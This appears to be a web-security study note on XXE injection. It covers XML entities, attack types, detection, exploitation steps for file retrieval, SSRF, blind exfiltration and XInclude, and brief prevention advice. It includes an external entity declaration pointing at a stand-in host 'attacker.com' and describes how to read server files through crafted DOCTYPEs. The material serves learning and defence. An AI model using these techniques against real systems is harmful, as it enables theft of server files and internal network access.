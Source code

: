 ## What is XML?

XML stands for eXtensible Markup Language, we can understand XML is markup language, is developed by W3C to store and transmit data.

### DTD

DTD stands for Document Type Definition - define structure, data type of element and properties in XML document.

DTD has 2 types: internal and external.

### Entity

Entity has 3 parts: `&`, `nameOfEntity` and `;`. Entity is declared in DTD (Document Type Definition).

__Internal Entity__

- Entity is declared and used in the same file.
- Syntax: `<!ENTITY entity-name "entity-value">`

>```xml
>// DTD Example:
>
><!ENTITY name "John">
><!ENTITY age "20">
>
>// XML example:
>
><info>Name: &name; Age: &age;</info>
>
>```

__External Entity__

- Entity is declared in another position, system use will retrive to this position to get data of entity. (`.dtd`)
- Syntax: `<!ENTITY entity-name SYSTEM "URI/URL">`

Example: 

```xml
<!ENTITY entity-name SYSTEM "http://attacker.com/malicious.dtd">
```

## What is XXE?

XXE is stand for XML external entity injection. XXE is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 

Impact: allow an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

## How do XXE vuls occur?

XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.

## Types of XXE attacks?

- Exploiting XXE to retrieve files: where an external entity is defined containing the contents of a file, and returned in the application's response.

- Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.

- Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.

- Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.

## How to find/detect?

- Testing for file retrieval by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.

- Testing for blind XXE vulnerabilities by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. Burp Collaborator is perfect for this purpose.

- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an XInclude attack to try to retrieve a well-known operating system file.

## How to exploit XXE?

### Exploiting XXE to retrieve files

- Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.

- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

__Example__

![Alt text](image.png)

After send request

![Alt text](image-1.png)


### Exploiting XXE to perform SSRF attacks

- The other main impact of XXE attacks is that they can be used to perform server-side request forgery (SSRF).

- Define an external XML entity using the URL that you want to target, and use the defined entity within a data value.

- A data value that is returned in the application's response, else -> only attack blind SSRF attacks.

__Example__

![Alt text](image-2.png)

### Blind XXE vulnerabilities

- Application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side files is not possible.

- Blind XXE vulnerabilities can still be detected and exploited, but more advanced techniques are required. You can sometimes use out-of-band techniques to find vulnerabilities and exploit them to exfiltrate data. And you can sometimes trigger XML parsing errors that lead to disclosure of sensitive data within error messages.

### Finding hidden attack surface for XXE injection

__XInclude attacks__

- XInclude is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.

- To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that you wish to include. For example:

![Alt text](image-3.png)

After:

![Alt text](image-4.png)

__XXE attacks via file upload__

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

Example:

![Alt text](image-6.png)


## How to prevent?

- Disable potentially dangerous XML features that the application does not need or intend to use.

- Disable resolution of external entities and disable support for XInclude